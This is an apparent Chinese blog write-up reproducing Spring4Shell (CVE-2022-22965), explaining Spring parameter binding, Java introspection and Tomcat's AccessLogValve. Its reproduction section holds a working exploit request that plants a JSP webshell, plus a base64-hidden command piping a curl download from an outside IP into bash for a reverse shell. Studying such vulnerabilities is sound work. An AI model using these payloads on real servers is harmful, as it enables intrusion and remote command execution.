# 前言

前段时间，Spring爆出来了应该比较震撼的洞，过了这么久网上的POC和细节也公布出来了，就打算来复现一下

漏洞编号：CVE-2022-22965

漏洞成因：这次的 CVE-2022-22965 其实是 CVE-2010-1622 的绕过，由参数绑定造成的变量覆盖漏洞，通过更改 tomcat 服务器的日志记录属性，触发 pipeline 机制实现任意文件写入

大致的就是，通过SpringMVC的参数绑定覆盖tomcat日志的属性，修改文件名和输出内容，然后输出一个jsp木马到tomcat的web目录造成命令执行

**利用限制**

- JDK9 或以上版本系列（存在 module 属性）
- Spring 框架或衍生的 SpringBoot 等框架，版本小于 v5.3.18 或 v5.2.20（支持参数绑定机制）
- Spring JavaBean 表单参数绑定需要满足一定条件
- 以 war 包的形式部署在 Tomcat 容器中，且日志记录功能开启（默认状态）

# 前置知识

这个洞涉及的一些东西之前并没有见过，所以还是需要对下面的知识有一些了解

## JavaBean类

javaBean类是java的一个特殊类

就是有默认构造方法,只有get,set的方法的java类的对象.

专业点解释是：

- JavaBean定义了一组规则
- JavaBean就是遵循此规则的平常的Java对象

满足这三个条件: 

- 执行java.io.Serializable 接口（一般我们自己写的没有写Serializable接口，但内置的基本上都有这个接口）
- 提供无参数的构造器
- 提供getter 和 setter方法访问它的属性.

## SpringMVC参数绑定

为了方便编程，SpringMVC支持将HTTP请求中的的请求参数或者请求体内容，根据`Controller`方法的参数，自动完成类型转换和赋值。之后，`Controller`方法就可以直接使用这些参数，避免了需要编写大量的代码从`HttpServletRequest`中获取请求数据以及类型转换。下面是一个简单的示例：

```Java
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class UserController {
    @RequestMapping("/addUser")
    public @ResponseBody String addUser(User user) {
        return "OK";
    }
}
```

User.java

```
package com.example.spring;

public class User {
    private String name;
    private Department department;
    public User(){
        System.out.println("调用了User的无参构造");
    }

    public String getName() {
        System.out.println("调用了User的getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("调用了User的setName");
        this.name = name;
    }

    public Department getDepartment() {
        System.out.println("调用了getDepartment");
        return department;
    }

    public void setDepartment(Department department) {
        System.out.println("调用了setDepartment");
        this.department = department;
    }
}
```

department.java

```
package com.example.spring;

public class Department {
    private String name;
    public Department(){
        System.out.println("调用了depart的无参构造");
    }

    public String getName() {
        System.out.println("调用了depart的getName");
        return name;
    }

    public void setName(String name) {
        this.name = name;
        System.out.println("调用了depart的setName");
    }
}
```

访问`http://127.0.0.1:8080/addUser?name=aaa&department.name=bbb`看一下输出内容



这里首先在User里面调用了getDepartment，还实例化了department对象，对于嵌套参数（`department.name`）绑定，调用流程则是

```
User.getDepartment()-->Department.getName()-->Department.setName()
```

而对参数的设置则是先调用getter再调用setter，可以调试来看看这里的参数绑定


可以看到，直接传入的name绑定到了User的name参数上，而department.name则绑定到了department的name参数上

这样也表名SpringMVC支持多层参数的嵌套绑定，刚才也说了参数的绑定是先get在set的，也就是

```
User.getDepartment()
    Department.setName()
```

假设请求参数名为`foo.bar.baz.qux`，对应`Controller`方法入参为`User`，则有以下的调用链：

```Java
User.getFoo()
    Foo.getBar()
        Bar.getBaz()
            Baz.setQux() // 注意这里为set
```

那这个是怎么调用的呢

执行参数绑定的函数可以跟进 ServletRequestDataBinder 类中bind方法



跟进doBind方法



跟进父类的doBind方法



在 applyPropertyValues 中添加参数的值



先来看看this.getPropertyAccessor()



返回的是一个BeanWrapperImpl对象

这里可以自己去跟一下，其实就是最后在`getPropertyAccessor`返回了一个beanwraaper，不过这是个接口，默认的实现类是BeanWrapperImpl，然后调用setPropertyValues 赋值

跟进setPropertyValues



这里通过迭代器循环调用setPropertyValue



然后再跟进getPropertyAccessorForPropertyPath



在这个函数中，解析了`department.name`，截取了对应绑定参数，这里也就是department，然后传入`getNestedPropertyAccessor`，跟进`getNestedPropertyAccessor`



继续跟进到getPropertyValue



跟进getLocalPropertyHandler



这里返回了一个对象，可以说是通过BeanWrapperImpl拿到了department类，这里的getPropertyDescriptor方法和BeanWrapperImpl在后面也会介绍

回到getNestedPropertyAccessor，向下走，调用setDefaultValue



跟进setDefaultValue



跟进这里的createDefaultPropertyValue



跟进newValue，一直步进来到



跟进instantiateClass，ctor是前面反射获取到的Department的构造器



最后在这个函数里面实例化


console看到了调用了department的构造器



回到setDefaultValue后，看到调用了setPropertyValue，跟进后发现主要书一个赋值的，所以在这里会调用到了getDepartment和setDepartment

在当前要绑定的参数 (department) 无法直接赋值的时候，会进行多层嵌套的参数绑定，程序又会回到 getPropertyAccessorForPropertyPath 中

```
protected AbstractNestablePropertyAccessor getPropertyAccessorForPropertyPath(String propertyPath) {
    int pos = PropertyAccessorUtils.getFirstNestedPropertySeparatorIndex(propertyPath);
    if (pos > -1) {
        String nestedProperty = propertyPath.substring(0, pos);
        String nestedPath = propertyPath.substring(pos + 1);
        AbstractNestablePropertyAccessor nestedPa = this.getNestedPropertyAccessor(nestedProperty);
        return nestedPa.getPropertyAccessorForPropertyPath(nestedPath);
    } else {
        return this;
    }
}
```

这个函数最后返回的时候有个判断，如果pos>-1，返回的时候就会再次调用，换句话说，就是只有绑定的参数没有到最后，就会一直调用下去，最后走到绑定参数那个类实现赋值

看到参数从 department.name 变成了 name



然后参数就是传入的bbb

这里主要是就是一个解析过程，对于SpringMVC嵌套参数绑定过程做一个了解

剩下的过程就不分析了

## Java Bean PropertyDescriptor

这个东西在上面调试过程中看到过，具体是什么呢

`PropertyDescriptor`是JDK自带的`java.beans`包下的类，意为属性描述器，用于获取符合Java Bean规范的对象属性和get/set方法。

对于 JavaBean 中的私有属性，可以通过 getter/setter 方法来访问/设置，在 jdk 中提供了一套 api 来访问某个属性的 getter/setter 方法，也就是内省。

- BeanInfo getBeanInfo(Class beanClass)
- BeanInfo getBeanInfo(Class beanClass, Class stopClass)

在获得 BeanInfo 后，可以通过 PropertyDescriptors 类获取符合 JavaBean 规范的对象属性和 getter/setter 方法。

可以看看下面这个demo

```
package com.example.spring;

import java.beans.BeanInfo;
import java.beans.Introspector;
import java.beans.PropertyDescriptor;

public class PropertyDescriptorDemo {
    public static void main(String[] args) throws Exception {
        User user = new User();
        user.setName("foo");

        BeanInfo userBeanInfo = Introspector.getBeanInfo(User.class);
        PropertyDescriptor[] descriptors = userBeanInfo.getPropertyDescriptors();
        for (PropertyDescriptor pd : descriptors) {
            System.out.println("Property: " + pd.getName());
        }
        PropertyDescriptor userNameDescriptor = null;
        for (PropertyDescriptor descriptor : descriptors) {
            if (descriptor.getName().equals("name")) {
                userNameDescriptor = descriptor;
                System.out.println("userNameDescriptor: " + userNameDescriptor);
                System.out.println("Before modification: ");
                System.out.println("user.name: " + userNameDescriptor.getReadMethod().invoke(user));
                userNameDescriptor.getWriteMethod().invoke(user, "bar");
            }
        }
        System.out.println("After modification: ");
        System.out.println("user.name: " + userNameDescriptor.getReadMethod().invoke(user));
    }
}
```

输出结果



可以看到，通过PropertyDescriptors 类获取符合 JavaBean 规范的对象属性和 getter/setter 方法对对应属性进行了修改



而且这里还获取到了一个java.lang.Class,而且自带了一个getClass方法

这里是因为没有使用 stopClass，访问该类的时候访问到了 Object.class，而内省机制的判定规则是，只要由 getter/setter 方法中的一个，就会认为存在一个对应的属性，而碰巧的是，Java 中的所有对象都会默认继承 Object 类，同时它也存在一个 getClass 方法，这样就解析到了 class 属性

直接打印Class的东西



不过上面我在调试的时候发现，基本上有没有用到getBeaninfo()，而是用 BeanWrapperImpl 这个类的各种方法来操作。BeanWrapperImpl 类是 BeanWrapper 接口的默认实现，可以看作前面提到的 PropertyDescriptor 的封装，BeanWrapperImpl 对 Bean 的属性访问和设置最终调用的是 PropertyDescriptor

## BeanWrapperImpl

在Spring中，`BeanWrapper`接口是对Bean的包装，定义了大量可以非常方便的方法对Bean的属性进行访问和设置。

BeanWrapperImpl`类是`BeanWrapper`接口的默认实现，`BeanWrapperImpl.wrappedObject`属性即为被包装的Bean对象，`BeanWrapperImpl`对Bean的属性访问和设置最终调用的是`PropertyDescriptor

demo如下

```
package com.example.spring;

import org.springframework.beans.BeanWrapper;
import org.springframework.beans.BeanWrapperImpl;

public class BeanWrapperDemo {
    public static void main(String[] args) throws Exception {
        User user = new User();
        user.setName("foo");
        Department department = new Department();
        department.setName("SEC");
        user.setDepartment(department);

        BeanWrapper userBeanWrapper = new BeanWrapperImpl(user);
        userBeanWrapper.setAutoGrowNestedPaths(true);
        System.out.println("userBeanWrapper: " + userBeanWrapper);

        System.out.println("Before modification: ");
        System.out.println("user.name: " + userBeanWrapper.getPropertyValue("name"));
        System.out.println("user.department.name: " + userBeanWrapper.getPropertyValue("department.name"));

        userBeanWrapper.setPropertyValue("name", "bar");
        userBeanWrapper.setPropertyValue("department.name", "IT");

        System.out.println("After modification: ");
        System.out.println("user.name: " + userBeanWrapper.getPropertyValue("name"));
        System.out.println("user.department.name: " + userBeanWrapper.getPropertyValue("department.name"));
    }
}
```



可以看到，直接就调用了对应的方法，通过`BeanWrapperImpl`可以很方便地访问和设置Bean的属性，比直接使用`PropertyDescriptor`要简单很多

## Tomcat AccessLogValve 和 access_log

这是这次漏洞的一个关键点的地方

Tomcat的`Valve`用于处理请求和响应，通过组合了多个`Valve`的`Pipeline`，来实现按次序对请求和响应进行一系列的处理。其中`AccessLogValve`用来记录访问日志access_log。Tomcat的`server.xml`中默认配置了`AccessLogValve`，所有部署在Tomcat中的Web应用均会执行该`Valve`，内容如下：

```XML
<Valve className="org.apache.catalina.valves.AccessLogValve" directory="logs"
               prefix="localhost_access_log" suffix=".txt"
               pattern="%h %l %u %t &quot;%r&quot; %s %b" />
```

下面列出配置中出现的几个重要属性： - directory：access_log文件输出目录。 - prefix：access_log文件名前缀。 - pattern：access_log文件内容格式。 - suffix：access_log文件名后缀。 - fileDateFormat：access_log文件名日期后缀，默认为`.yyyy-MM-dd`

# 漏洞复现

发送数据包

```
GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat= HTTP/1.1
Host: 192.168.121.132:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Connection: close
suffix: %>//
c1: Runtime
c2: <%
DNT: 1


```

然后访问

```
http://192.168.121.132:8080/tomcatwar.jsp?pwd=j&cmd=bash%20-c%20%7Becho%2CY3VybCA0Ny45My4yNDguMjIxfGJhc2g%3D%7D%7C%7Bbase64%2C-d%7D%7C%7Bbash%2C-i%7D
```

收到了弹过来的shell



发送的时候都url编码一下

# 漏洞分析

来看一下exp里面的一些参数

- `class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if("j".equals(request.getParameter("pwd"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i`
- `class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp`
- `class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT`

- `class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar`

- `class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=`

这些参数都是上面日志的一些参数，pattern是内容，可以看到现在是一个jsp的木马，suffix是文件后缀，directory是文件输出目录，prefix是文件输出前缀，fileDateFormat是文件生产日期（加在前缀后面的）

## pattern参数

前面说到过，因为没有使用stopClass的原因，每个javabean类还可以获取到一个Class类

和上面一样，在这里对每一个绑定的参数迭代解析



最后迭代完后得到这样一个调用链

```Java
User.getClass()
    java.lang.Class.getModule()
        java.lang.Module.getClassLoader()
            org.apache.catalina.loader.ParallelWebappClassLoader.getResources()
                org.apache.catalina.webresources.StandardRoot.getContext()
                    org.apache.catalina.core.StandardContext.getParent()
                        org.apache.catalina.core.StandardHost.getPipeline()
                            org.apache.catalina.core.StandardPipeline.getFirst()
                                org.apache.catalina.valves.AccessLogValve.setPattern()
```

最将AccessLogValve的pattern参数设置为对应的jsp木马的值

其他几个参数在前面也说过，也就是tomcat的access_log对应的参数，最后输出了应该JSP Webshell到Tomcat的web目录下

## 漏洞关键

### JDK版本

这个漏洞在JDK9后才能利用，其实是对10年的一个洞的绕过，在之前的1.8的版本中

`AbstractNestablePropertyAccessor nestedPa = getNestedPropertyAccessor(nestedProperty);`调用的过程中，实际上Spring做了一道防御。

Spring使用`org.springframework.beans.CachedIntrospectionResults`缓存并返回Java Bean中可以被`BeanWrapperImpl`使用的`PropertyDescriptor`

这里为了方便就直接找了张网上的图，在`CachedIntrospectionResults`构造方法中



该行的意思是：当Bean的类型为`java.lang.Class`时，不返回`classLoader`和`protectionDomain`的`PropertyDescriptor`

也就走不通classLoader了

不过在JDK9后，Java为了支持模块化，在`java.lang.Class`中增加了`module`属性和对应的`getModule()`方法，然后在Module类中有getClassLoader方法，也就实现了对应的绕过

### web部署方式

开始我本来觉得spring自带了tomcat，应该是差不多的，就直接用spring一键启动了，不过没有打通，才知道还是有一定的区别

主要是我spring之前部署的时候打包方式是jar包，而不是war包

